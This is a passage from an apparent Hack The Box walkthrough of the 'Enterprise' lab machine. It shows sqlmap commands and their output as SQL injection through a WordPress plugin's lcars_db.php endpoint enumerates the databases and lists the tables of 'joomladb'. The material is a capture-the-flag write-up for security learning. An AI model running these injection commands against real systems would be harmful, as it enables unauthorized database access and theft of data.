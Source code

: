 It works! It has all databases including `joomla`, `joomladb`, `wordpress`, `wordpressdb`.

Let's investigate all of them.

The db `joomla` is empty.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D joomla --tables

<SNIP>

[05:09:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10, PHP 5.6.31
back-end DBMS: MySQL >= 5.0
[05:09:21] [INFO] fetching tables for database: 'joomla'
[05:09:22] [INFO] fetching number of tables for database 'joomla'
[05:09:22] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[05:09:22] [INFO] retrieved: 0
[05:09:24] [WARNING] database 'joomla' appears to be empty
[05:09:24] [ERROR] unable to retrieve the table names for any database
do you want to use common table existence check? [y/N/q] N
No tables found
[05:09:24] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb' 
```

What about `joomladb`?

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D joomladb --tables

<SNIP>

Database: joomladb
[72 tables]
+-------------------------------+
| edz2g_assets                  |
| edz2g_associations            |
| edz2g_banner_clients          |
| edz2g_banner_tracks           |
| edz2g_banners                 |
| edz2g_categories              |
| edz2g_contact_details         |
| edz2g_content                 |
| edz2g_content_frontpage       |
| edz2g_content_rating          |

<SNIP>

| edz2g_user_notes              |
| edz2g_user_profiles           |
| edz2g_user_usergroup_map      |
| edz2g_usergroups              |
| edz2g_users                   |
| edz2g_utf8_conversion         |
| edz2g_viewlevels              |
+-------------------------------+

[05:10:04] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb'
```
